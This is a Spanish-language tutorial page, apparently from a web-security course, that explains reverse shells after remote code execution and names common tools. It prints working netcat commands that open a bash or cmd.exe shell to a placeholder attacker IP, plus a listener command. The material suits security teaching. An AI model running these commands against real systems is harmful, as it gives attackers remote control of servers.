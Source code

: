 ```yaml
---
title : "Reverse Shell"
lead: ""
date: 2020-10-06T08:48:45+00:00
draft: false
images: []
menu:
  docs:
    parent: "apps-web"
weight: 306
---
```


En el capítulo anterior vimos cómo ejecutar comandos de manera remota en un servidor, sin tener acceso a una
terminal. Esto es muy útil en un comienzo, pero rápidamente se vuelve evidente la lentitud, torpeza y limitaciones
que significa este medio. Sería mucho más cómodo si de alguna forma se pudiese obtener acceso a una terminal,
o _shell_, con la cual ejecutar comandos de manera más directa, y sin tener que pasar por todo el proceso
remoto.

Afortunadamente existen las shell reversas: a diferencia de una shell normal, en la cual el cliente se conecta
a un servidor escuchando por conexiones, una shell reversa implica que el cliente está a la espera de una
conexión, y es el servidor quien la inicia. Asumiendo que ya tienen RCE, es posible iniciar una reverse shell con
un par de comandos, aunque puede ser necesario evadir algún filtro, firewall o antivirus.

Los pasos para levantar una reverse shell son los siguientes:
1. El atacante espera por conexiones TCP en algún puerto específico (por ejemplo 4444).

2. El servidor inicia una conexión TCP con el atacante en el puerto especificado.

3. Una vez establecida la conexión, el servidor levanta una shell
   (como `sh` o `bash` en Linux, y `cmd.exe` o `powershell.exe` en Windows).

4. Todos los mensajes del atacante son redirigidos a la entrada estándar de la shell, y la salida estándar de
esta es redirigida por la conexión hacia el atacante.

## Herramientas

En términos generales, cualquier programa que permita escuchar e iniciar comunicaciones TCP, y luego redirigir
las entradas y salidas estándar, debería funcionar. Los más comunes son:
* Linux: `nc`, `ncat`, `netcat`, `socat`
* Windows: `nc.exe`

También se puede iniciar reverse shells con casi todos los lenguajes de programación.
[Aquí](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
pueden encontrar documentación sobre muchas técnicas distintas de iniciar reverse shells.

## Ejemplo

### Cliente

Para empezar a escuchar en el puerto `4444` por conexiones TCP, puede usar `nc` de la siguiente forma:

    nc -lvp 4444

También pueden usar [pwncat](https://github.com/calebstewart/pwncat), que está hecho para reverse shells,
y tiene más características, como autocompletado con TAB.

    pwncat --listen --port 4444

### Servidor

En el servidor usualmente no se tiene control de los programas instalados, por lo que se tendrán que adaptar
a lo que encuentren ahí. De todas formas, casi siempre está instalado `nc` o `nc.exe`. Para iniciar la conexión
a la IP `1.2.3.4` y puerto `4444`, levantar la shell y redirigir la entrada y salida estándar, se ejecuta lo siguiente:

    nc -c /bin/bash 1.2.3.4 4444
    nc.exe 1.2.3.4 4444 -e cmd.exe

### Prueba de Concepto

Ejecutamos lo descrito anteriormente, con una misma máquina funcionando como cliente y servidor. En el lado
del servidor no se ve nada muy interesante:

![Reverse Shell Server](../reverse-shell-server.png)

Pero el cliente ahora tiene una shell nueva:

![Reverse Shell Client](../reverse-shell-client.png)
